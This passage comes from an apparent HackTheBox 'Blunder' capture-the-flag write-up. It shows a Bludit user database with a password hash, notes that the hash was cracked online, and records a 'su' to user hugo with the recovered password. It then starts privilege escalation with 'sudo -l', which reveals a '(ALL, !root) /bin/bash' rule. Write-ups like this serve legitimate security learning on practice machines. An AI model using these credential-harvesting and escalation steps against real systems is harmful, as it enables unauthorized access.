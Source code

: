 ```bash
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$
```

Cracked that in crackstation.

![Untitled](/img/htb-blunder/Untitled%209.png)

su to `hugo : Password120` and I got user flag.

```bash
$ su hugo
su hugo
Password: Password120

hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ cd /home
cd /home
hugo@blunder:/home$ ls
ls
hugo  shaun
hugo@blunder:/home$ cd hugo
cd hugo
hugo@blunder:~$ cat user.txt
cat user.txt
```

## Privilege Escalation

Like always I started with `sudo -l`

```bash
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
